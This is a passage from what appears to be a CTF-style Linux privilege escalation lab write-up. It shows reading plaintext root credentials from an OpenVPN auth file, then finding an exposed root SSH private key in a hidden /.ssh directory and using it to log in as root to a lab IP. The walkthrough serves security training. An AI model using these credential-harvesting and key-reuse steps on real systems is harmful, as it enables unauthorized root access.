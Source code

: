 ```
user@debian:~$ cat /etc/openvpn/auth.txt 
root
password123
```
```
su root
```

Done 😃

# Task 18 : Passwords & Keys - SSH Keys
Sometimes users make backups of important files but fail to secure them with the correct permissions.

Look for hidden files & directories in the system root:
```
ls -la /
```
output:
```
total 96
drwxr-xr-x 22 root root  4096 Aug 25  2019 .
drwxr-xr-x 22 root root  4096 Aug 25  2019 ..
drwxr-xr-x  2 root root  4096 Aug 25  2019 bin
drwxr-xr-x  3 root root  4096 May 12  2017 boot
drwxr-xr-x 12 root root  2820 Sep 26 02:32 dev
drwxr-xr-x 67 root root  4096 Sep 26 02:58 etc
drwxr-xr-x  3 root root  4096 May 15  2017 home
lrwxrwxrwx  1 root root    30 May 12  2017 initrd.img -> boot/initrd.img-2.6.32-5-amd64
drwxr-xr-x 12 root root 12288 May 14  2017 lib
lrwxrwxrwx  1 root root     4 May 12  2017 lib64 -> /lib
drwx------  2 root root 16384 May 12  2017 lost+found
drwxr-xr-x  3 root root  4096 May 12  2017 media
drwxr-xr-x  2 root root  4096 Jun 11  2014 mnt
drwxr-xr-x  2 root root  4096 May 12  2017 opt
dr-xr-xr-x 96 root root     0 Sep 26 02:30 proc
drwx------  5 root root  4096 May 15  2020 root
drwxr-xr-x  2 root root  4096 May 13  2017 sbin
drwxr-xr-x  2 root root  4096 Jul 21  2010 selinux
drwxr-xr-x  2 root root  4096 May 12  2017 srv
drwxr-xr-x  2 root root  4096 Aug 25  2019 .ssh
drwxr-xr-x 13 root root     0 Sep 26 02:30 sys
drwxrwxrwt  2 root root  4096 Sep 26 03:05 tmp
drwxr-xr-x 11 root root  4096 May 13  2017 usr
drwxr-xr-x 14 root root  4096 May 13  2017 var
lrwxrwxrwx  1 root root    27 May 12  2017 vmlinuz -> boot/vmlinuz-2.6.32-5-amd64
```
Note that there appears to be a hidden directory called .ssh. View the contents of the directory:
```
ls -l /.ssh
```
output:
```
user@debian:~$ ls /.ssh/
root_key
```
copy the key and give it permission
```
chmod 600 root_key
```
Use the key to login to the Debian VM as the root account (note that due to the age of the box, some additional settings are required when using SSH):
```
ssh -i root_key -oPubkeyAcceptedKeyTypes=+ssh-rsa -oHostKeyAlgorithms=+ssh-rsa root@10.10.201.12
```
